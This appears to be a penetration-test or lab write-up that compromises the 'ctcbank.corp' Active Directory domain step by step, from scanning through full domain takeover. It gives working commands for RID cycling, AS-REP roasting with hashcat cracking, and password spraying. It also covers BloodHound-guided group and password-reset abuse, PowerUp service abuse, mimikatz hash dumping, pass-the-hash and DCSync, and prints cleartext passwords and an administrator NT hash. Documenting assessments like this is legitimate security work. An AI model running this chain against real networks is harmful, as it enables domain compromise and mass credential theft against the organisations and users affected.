# CTC Bank Operation

`Aug 8 2026`

# Targets

- `10.60.1.11`
- `10.60.1.12`
- **Domain:** ctcbank.corp

> We need to put `ctcbank.corp` -> `/etc/hosts`

```
nmap 10.60.1.11 -Pn -v -T4
```

```
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
5357/tcp open  wsdapi
5985/tcp open  wsman
```

```
nmap 10.60.1.12 -Pn -v -T4
```

```
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
```

- Checking if guest account is enabled using `netexec`



```
netexec smb 10.60.1.11 -u '' -p ''
```

### RID Cycling

- we use `lookupsid` to perform RID brute-force:



```
lookupsid.py ctcbank.corp/anyone@10.60.1.11 -no-pass
```

- next we will save users only from this output `users.txt` and we will try **AS-REP** roasting attack if any of domain user is set to `DO NOT REQ PRE AUTHENTICATION` so we can request TGT.



```
GetNPUsers.py ctcbank.corp/ -usersfile users.txt -no-pass -dc-ip 10.60.1.11 -request
```

WOW! now we have TGT for `meseret.alemu` so now lets hope we can crack this ticket.



```
hashcat -m 18200 hash.txt rockyou.txt
```

- Got our first initial access!!
- Confirmation:



### Credentials

```
u: meseret.alemu
p: Password1
```

- now we will try if there is same password as `meseret.alem` - **Password Spraying**



```
netexec smb 10.60.1.11 -u users.txt -p Password1 --continue-on-success
```

- so now we got 2 accounts with same password. Another cred:

```
bethlehem.tadesse:Password1
```

## Bloodhound

- Next we will use `bloodhound` to understand the ACL part.



```
bloodhound-python -u meseret.alemu -p 'Password1' -d ctcbank.corp -ns 10.60.1.11 --dns-tcp -c All -dc ctcbank-dc.ctcbank.corp --zip
```

Then we need to upload this to our bloodhound server:



- Then we need to wait a little bit maybe 1-2 minutes. - after uploading bloodhound collector output .zip file we can do our post enumeration using bloodhound



- which means we can add `MESERET.ALEMU` to `HR` group



```
net rpc group addmem "HR" "MESERET.ALEMU" -U "ctcbank.corp"/"MESERET.ALEMU"%"Password1" -S "10.60.1.11"
net rpc group members "HR" -U "ctcbank.corp"/"MESERET.ALEMU"%"Password1" -S "10.60.1.11"
```

- Now `MESERET.ALEMU` is member of `HR` well done. - Now from `HR` group lets see if we can go anywhere else





```
net rpc group addmem "Finance" "MESERET.ALEMU" -U "ctcbank.corp"/"MESERET.ALEMU"%"Password1" -S "10.60.1.11"
net rpc group members "Finance" -U "ctcbank.corp"/"MESERET.ALEMU"%"Password1" -S "10.60.1.11"
```

- Good one we also added `MESERET.ALEMU` into `Finance` group!

okay now lets check `BETHLEHEM.TADESSE` if she has any use full permission



- As we can see user `BETHLEHEM.TADESSE` can reset password of `TIGIST.HAILE` lets do that



- nice one… please use this password as common password when you reset it `newP@ssword2026` - now we have 3 account compromised so lets see what we can find with the new user `TIGIST.HAILE`



- which means she can perform remote management using winrm to the DC



```
evil-winrm -i 10.60.1.11 -u tigist.haile -p 'newP@ssword2026'
```

> Note: don’t perform local privilege escalation on DC unless it’s must.



we got winrm access but with limited privilege to `BR-DIRE-DAWA01`:



- lets try the RDP:

[figure not shown]

```
xfreerdp /v:10.60.1.12 /u:"tigist.haile" /p:'newP@ssword2026' /cert-ignore
```

- lets do privilege escalation from here; so I’m gonna use `PowerUp.ps1` - `/Tools`

[figure not shown]



- little about `week service permission`
- https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/sddl-for-device-objects
- https://medium.com/@boutnaru/the-windows-security-journey-security-descriptor-definition-language-sddl-43231ca86db6

[figure not shown]



```
Invoke-ServiceAbuse -ServiceName 'Card Mgmt-Srv' -UserName 'ctcbank\tigist.haile' -Verbose
```

- Then after the coniformation we add `tigist.haile` to local admin group then we need to sign out and sing-in again to create new session as administrator



- https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/logonpasswords - you need to run mimikatz as an administrator not standard user - wow! now we get what we want to perform PTH using domain admin hash ## NT Hash

```
U: Administrator
H: cb8cd5314efc651eaab27d8abd614367
```



```
evil-winrm -i 10.60.1.11 -u Administrator -H 'cb8cd5314efc651eaab27d8abd614367'
```

- now we got DA account!!! so now we will perform DCSync and retrieve all domain users hash!

## DCSync

- https://www.extrahop.com/resources/attacks/dcsync
- https://www.sentinelone.com/blog/active-directory-dcsync-attacks/



```
secretsdump.py ctcbank.corp/Administrator@10.60.1.11 -just-dc-ntlm -hashes ':cb8cd5314efc651eaab27d8abd614367'
```

- There we gooo! all done! now we can use any of this hash to authenticate as any user in the domain.